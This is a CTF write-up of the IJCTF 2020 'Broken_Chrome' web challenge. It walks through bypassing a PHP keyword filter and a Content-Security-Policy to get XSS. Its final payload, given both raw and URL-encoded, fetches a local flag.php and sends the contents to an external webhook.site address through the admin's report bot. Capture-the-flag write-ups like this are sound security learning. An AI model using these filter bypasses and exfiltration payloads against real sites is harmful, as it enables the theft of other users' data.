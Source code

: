 ```yaml
---
layout: post
title: IJCTF - Broken_Chrome
excerpt: "I didn't have much time to look at this ctf but I was able to solve one web problem. This was interesting to me because I faced some difficulties in getting my payload to work and learned some concepts about the dom."
categories: [Writeups, IJCTF'20]
tags: [web]
---
```


I didn't have much time to look at this ctf but I was able to solve one web problem. This was interesting to me because I faced some difficulties in getting my payload to work and learned some concepts about the dom.

#### Broken_Chrome
```
read flag.php

http://34.87.80.48:31338/?view-source

http://34.87.177.44:31338/?view-source

Note: server is running on 80 port in local.

flag format: ijctf{}

Author: `sqrtrev`
```

Thankfully the challenge author has made the goal very clear. It is to read flag.php which is hosted on the webserver. Also, the source of the webpage is provided so what we need to exploit should be clear. The following is the source of the webpage.

  ```php
<?php  
if(isset($_GET['view-source'])){  
	highlight_file(__FILE__);  
	exit();  
}  
  
header("Content-Security-Policy: default-src 'self' 'unsafe-inline' 'unsafe-eval'");  
$dom = $_GET['inject'];  
if(preg_match("/meta|on|src|<script>|<\/script>/im",$dom))  
	exit("No Hack");  
?>  
<html>  
<?=$dom ?>  
<script>  
window.TASKS = window.TASKS || {  
proper: "Destination",  
dest: "https://vuln.live"  
}  
<?php  
if(isset($_GET['ok']))  
	echo "location.href = window.TASKS.dest;";  
?>  
</script>  
	<a href="check.php">Bug Report</a>  
</html>`
```

It is pretty clear that we are able to inject content into the dom and we should use this to visit flag.php.  If we visit check.php it tells us that it requires the parameter `?report=[url]`. This is clearly a way for the admin / local server to visit a link that we send . If we visit flag.php, it tells us that `Only localhost can access`. At this point, it is clear that what we need to do is get some injection into the dom which will get cause the admin visitor to visit flag.php and then exfil the data that is contained in that page.

The first thing I looked at was the csp which was used on the website.  The `default-src 'self'` tag makes it so that we cannot just fetch an arbitrary url. Instead, the url has to be the same as self. For example, if I visit `google.com`, the only website I can fetch is `google.com`. If I tried to visit `bing.com` I would violate the csp and my request would not fire. The other interesting part of the css is that `'unsafe-inline'` is allowed. This means we can insert script tags and have the script execute.

The next step is to look at the source code and see what we can do. The last php section echos a `location.href` into the dom which allows us to bypass the csp and redirect the viewer to any url we want. This is useful as the last step in our exploit chain after we grab data. Now all we need to figure out is what to do in order to make window.TASKS.dest into our exfil url.

One thing I tried first was some alternative methods for xss. As my primary browser, I use firefox and a payload that worked when injected into the site was `<object data="javascript:alert(XSS)">`. I spent a lot of time getting payloads which would get the data and insert it into window.TASKS.dest for exfil but it wasn't working. After I tested this in chrome browser, the xss just didn't activate the alert. I'm not sure whether the exploitation path was wrong or the xss vector just didn't work in chrome but it was an important lesson that what works in one browser might not work in another. This is my initial thoughts and although it did not work, I am sharing it because it is a way to see what will not work.

After this failed attempt, I realized that there was an easier way to bypass the filter. It was just to use `<script x>alert("XSS")</script y>` This proved to work on chrome and was how I was able to inject javascript. 

In order to get the data from flag.php and load that into window.TASKS.dest, I decided to use a fetch. Because we need to get the data from localhost, I can use `fetch("localhost/flag.php")` . This means the url I would send to admin is `localhost.com/?inject=<script x>fetch("localhost/flag.php")</script y>` and thus it would not be blocked by CSP.  My first attempt after getting the fetch to work was to override window.TASKS with my URL and it wasn't working. My payload looked something like this: `<script x>fetch("localhost/flag.php").then(r=>r.text()).then(r=>window.TASKS={dest: "webhook.site" + r})</script y>` However, after messing with this idea for some time I wasn't able to get it to work. I'm not sure why this was happening but I believe it is because the fetch is an async function and location.href was immediete upon page load. This meant that if I didn't have the `?ok` parameter and I checked for the value of window.TASKS it was correct, but I was being redirected to the wrong page. I asked the challenge author for his approach and he used XHR requests. I believe these are synchonous so the intended path to set the value of window.TASKS would work. Another important lesson I learned from this challenge was to not trust async requests.

After all these failed attempts to use the code in provided by the challenge, I realized that I could just bypass the filter to read the file. One trick in javascript is that you can call functions without a dot using brackets. For example, `window.location` can become `window["location"]`. However, `on` is still banned by the filter so we can take this one step further and use `window["locatio" + "n"]`. Now, I just combined all the steps to read the flag and send it to my webhook in order to read the flag. The final injection was `<script x>fetch("http://localhost:80/flag.php").then(r=>r.text()).then(r=>window['locatio'+'n'].assign('https://webhook.site/20f25ad1-38b7-4178-a0ab-6f60d2361ca0/' + r))</script y>` and to just not use the `ok` parameter. Finally, just send the url `http://localhost/?inject=<script x>fetch("http://localhost:80/flag.php").then(r=>r.text()).then(r=>window['locatio'+'n'].assign('https://webhook.site/20f25ad1-38b7-4178-a0ab-6f60d2361ca0/' + r))</script y>` to the bug report and this would get send the flag to my webhook. It is important to note that the URL needs to be url encoded in order to pass properly. This means our final payload looks like this ```http://34.87.80.48:31338/check.php?report=http%3A%2F%2Flocalhost%2F%3Finject%3D%3Cscript%2520x%3Efetch%2528%22http%253A%252F%252Flocalhost%253A80%252Fflag.php%22%2529.then%2528r%253D%3Er.text%2528%2529%2529.then%2528r%253D%3Ewindow%255B%2527locatio%2527%252B%2527n%2527%255D.assign%2528%2527https%253A%252F%252Fwebhook.site%252F20f25ad1-38b7-4178-a0ab-6f60d2361ca0%252F%2527%2520%252B%2520r%2529%2529%3C%252Fscript%2520y%3E``` and a few seconds later the flag will show up at our webhook.

Overall, I learned a lot about xss and what to be more careful about. The bypasses for the filter were also pretty interesting and one of the first times I did this in an active ctf so overall I thought it was a good challenge.

